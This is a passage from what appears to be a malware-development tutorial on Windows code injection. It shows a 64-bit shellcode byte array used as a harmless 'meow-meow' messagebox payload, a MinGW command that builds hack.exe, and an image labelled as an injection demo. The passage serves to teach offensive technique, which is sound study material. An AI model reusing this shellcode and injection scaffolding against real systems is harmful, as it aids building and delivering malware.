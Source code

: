 ```cpp

}
```

As usually, for simplicity, I used `meow-meow` messagebox as payload:    

```cpp
unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Let's go to compile our example:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

![injection 5](./images/36/2022-01-18_22-38.png){width="80%"}    

